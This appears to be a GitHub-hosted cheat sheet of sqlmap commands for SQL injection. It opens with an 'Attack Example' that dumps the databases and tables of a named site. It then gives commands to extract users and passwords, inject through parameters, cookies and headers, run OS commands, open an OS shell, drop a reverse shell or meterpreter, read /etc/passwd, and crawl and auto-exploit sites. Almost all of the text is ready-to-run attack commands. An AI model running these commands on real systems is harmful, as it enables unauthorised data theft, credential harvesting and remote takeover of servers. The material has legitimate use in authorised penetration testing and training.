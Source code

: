 # SQLmapCheatSheet
# Attack Example:-

 $ sqlmap -u www.site.com/index.php?id=1 -- batch --dbs
sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name --tables
sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name -T table_name --columns
sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name -T table_name -C columns_name1,columns_name2,columns_name3 --dump



## Basic arguments for SQLmap
Generic 
-   -u " < URL > " 
-   -p "<PARAM TO TEST>" 
-   --user-agent=SQLMAP 
-   --random-agent 
-   --threads=10 
-   --risk=3 #MAX
-   --level=5 #MAX
-   --dbms="<KNOWN DB TECH>" 
-   --os="<OS>"
-   --technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
-   --batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
-   --auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
-   --auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
-   --proxy=http://127.0.0.1:8080
-   --union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char

## Retrieve Information
Internal
-   --current-user #Get current user
-   --is-dba #Check if current user is Admin
-   --hostname #Get hostname
-   --users #Get usernames od DB
-   --passwords #Get passwords of users in DB
-   --privileges #Get privileges


## DB data
-   --all #Retrieve everything
-   --dump #Dump DBMS database table entries
-   --dbs #Names of the available databases
-   --tables #Tables of a database ( -D <DB NAME> )
-   --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-   -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column


## Injection place
-   From BurpSuite/ZAP capture
-   Capture the request and create a req.txt file!
-   [sqlmap -r req.txt --current-user]

## GET Request Injection
-   sqlmap -u "http://example.com/?id=1" -p id
-   sqlmap -u "http://example.com/?id=*" -p id

## POST Request Injection
-   sqlmap -u "http://example.com" --data "username=*&password=*"

 
## Injections in Headers and other HTTP Methods
# Inside cookie
-   sqlmap  -u "http://example.com" --cookie "mycookies=*"

## Inside some header
-  sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
-  sqlmap -u "http://example.com" --headers="referer:*"

## PUT Method
-  sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
-  <!--The injection is located at the '*'-->





## Indicate string when injection is successful
-  --string="string_showed_when_TRUE" 


## Eval
Sqlmap allows the use of -e or --eval to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the flask cookie session is signed by flask with the known secret before sending it:
-  sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump



## Shell
# Exec command
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

# Simple Shell
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

# Dropping a reverse-shell / meterpreter
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn



# Read File
-  --file-read=/etc/passwd


## Crawl a website with SQLmap and auto-exploit ->
-  sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

-  --batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
-  --crawl = how deep you want to crawl a site
-  --forms = Parse and test forms


## Second Order Injection
-  python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
-  sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs



## Set a suffix
-  python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "


## Prefix
-  python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "


## Help finding boolean injection
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
-  sqlmap -r r.txt -p id --not-string ridiculous --batch

